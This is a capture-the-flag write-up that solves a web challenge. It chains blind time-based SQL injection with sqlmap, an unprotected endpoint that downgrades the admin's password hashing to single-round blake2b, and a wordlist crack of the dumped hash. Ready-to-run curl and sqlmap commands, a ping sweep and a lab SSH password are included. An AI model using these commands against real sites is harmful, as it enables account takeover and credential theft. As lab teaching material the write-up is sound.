 # Solution

Starting by looking through the code, we can note a few interesting things.

- MySQL driver are use.
- There is a changeHash endpoint that changes the hash algorithm for a user using userid and is not protected.
- There is an input that is not sanitized in the getUserID endpoint which make it vulnerable to SQL injection, but it is not directly use in a login form and no data is returned.
- In the register endpoint, if trying to register with an existing username, it will return the userid of the username in the URL.
- We can see to the database schema.

For this solution, we start by defining the IP and port of the server.

```shell
ip=<ip>
port=<port>
```

## UserID

Then we register a user with the username admin so we can get the userid.

```shell
curl  -Ls -o /dev/null -w %{url_effective} "http://$ip:$port/register" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=admin&password=password&email=email%40mail.com&name=name' \
  --insecure
```

So admin userid is 1.

## SQLi

SQL injection is possible in the getUserID endpoint. Since we do not get any data back and is not use in a login form, we can use a blind time-based injection to get the hash of the password. Using SQLMap, since this type of injection is really slow, we can order by id, which will start with 1 and therefore start with the admin and we can also use the ssh client offered to reduce network lag with the password `marbled-casino-zodiac-composer` and do a ping sweep to detect the ip of the webserver.

```shell
ssh user@<ip_client>
bash
ifconfig
for i in {1..254} ;do (ping -c 1 <base_ip>.$i | grep "bytes from" &) ;done
```

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=admin&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T
```

It should take a minimum of 30 minutes, but we can stop quickly, when we see that it starts with `$2a$10$`, which is 'bcrypt' with 10 rounds. It is very slow to crack.

![alt text](sqlmap_1.png)

## Change Hash

Get the hashing algorithms:

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=admin&password=test' -C id,algo,round -T HashingAlgorithm -D userDB --dump  --batch --dbms MySQL -p username --technique=T

Database: userDB
Table: HashingAlgorithm
[3 entries]
+----+-------------+-------+
| id | algo        | round |
+----+-------------+-------+
| 1  | bcrypt      | 10    |
| 2  | sha256      | 64    |
| 3  | blake2b_256 | 1     |
+----+-------------+-------+
```

![alt text](sqlmap_2.png)

We can change the hashing algorithm of the admin for blake2b with 1 round, which is very fast to crack.

```shell
curl "http://$ip:$port/changeHash" \
  --data-raw 'userid=1&algoid=3' \
  --insecure
```

Next time, the admin login, the password will be changed. In the information given in the challenge, we can see it should be every 30 seconds.

## SQLi 2

Running SQLMap again, we can see that the hash is now blake2b with 1 round.

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=admin&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T --flush-session

+----+------------------------------------------------------------------+------------+
| id | password_hash                                                    | salt       |
+----+------------------------------------------------------------------+------------+
| 1  | 8eddab594c92c9dd9506bd22b38fd4c0fff439a63b698f37a1f21ea6f0072717 | ajg835Eoef |
+----+------------------------------------------------------------------+------------+
```

![alt text](sqlmap_3.png)

## Crack

Using a simple script like solve.go, we can crack the hash in a few seconds.

```shell
go run solve.go 8eddab594c92c9dd9506bd22b38fd4c0fff439a63b698f37a1f21ea6f0072717 ajg835Eoef rockyou.txt
Password found:  drakthull1
```

So the flag is: `flag-drakthull1`
